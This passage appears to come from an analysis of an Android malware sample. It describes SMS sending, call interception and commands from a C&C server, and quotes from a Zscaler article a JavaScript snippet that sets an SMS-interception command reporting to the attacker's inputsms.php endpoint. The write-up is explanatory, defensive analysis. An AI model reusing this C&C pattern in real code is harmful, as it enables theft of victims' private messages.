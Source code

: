 ![sms](sms.png)

However, the malware could also send SMS:

![send_sms](send_sms.png)

This kind of action can be requested by the C&C server, by putting in the HTML response such JS code, according to Zscaler's article

> ```html
><script>
>MeAction.SetCmd("SMSperehvat", "http://"+MeSetting.getDomain()+"/api/inputsms.php");
>MeAction.SetSMS("SMSperehvat");
></script>
> ```

The malware can also make some calls and intercept them:

![call](call.png)
